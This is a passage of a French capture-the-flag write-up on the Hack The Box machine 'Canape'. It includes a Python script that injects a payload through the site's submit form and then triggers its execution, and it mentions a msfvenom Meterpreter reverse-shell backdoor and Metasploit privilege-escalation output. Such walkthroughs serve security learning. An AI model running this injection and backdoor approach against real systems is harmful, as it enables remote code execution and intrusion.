 ```python
with open("payload") as fd:
    payload = fd.read()
    character, quote = payload.split("Moe", 1)
    character += "Moe"
    print("Character is")
    print(character)
    print("Quote is")
    print(quote)
    response = requests.post(
        "http://canape.htb/submit",
        data={
            "character": character,
            "quote": quote
        }
    )
    if "Success!" in response.text:
        print("Injection succeed!")
    else:
        print("Injection failed :(")
        exit()

    digest = md5(payload.encode()).hexdigest()
    print("Executing payload. Digest is {}...".format(digest))
    response = requests.post("http://canape.htb/check", data={"id": digest})
    print(response.status_code)
```

On aura préalablement généré une backdoor via *msfvenom* (lors de la première exploitation ça a fonctionné sans problème avec un *linux/x64/meterpreter/reverse\_tcp* mais lors de l'écriture de l'article il a fallut sortir un *linux/x64/meterpreter\_reverse\_https*...)  

On obtient alors un shell en tant que *www-data*. Le module *exploit\_suggester* de Metasploit nous remonte un exploit potentiel mais ça s'avère être un faux positif :  

```plain
[*] 10.10.10.70 - Collecting local exploits for x64/linux...
[*] 10.10.10.70 - 20 exploit checks are being tried...
[+] 10.10.10.70 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.
[*] Post module execution completed
```

Ouh Pinaise !
-------------

A ce stade on s'intéresse particulièrement à l'utilisateur *homer* dont le dossier personnel doit contenir notre flag de milieu de parcours.  

C'est un utilisateur avec un uid standard qui ne fait parti d'aucun groupe particulier (*uid=1000(homer) gid=1000(homer) groups=1000(homer)*)  

Si on cherche ses fichiers sur le système on voit qu'il possède tout */var/www/html* ainsi que le fichier */var/log/couchdb*.  

Et pour cause on voit dans les process qu'il fait tourner *CouchDB* ainsi que d'autres process *Erlang* :  

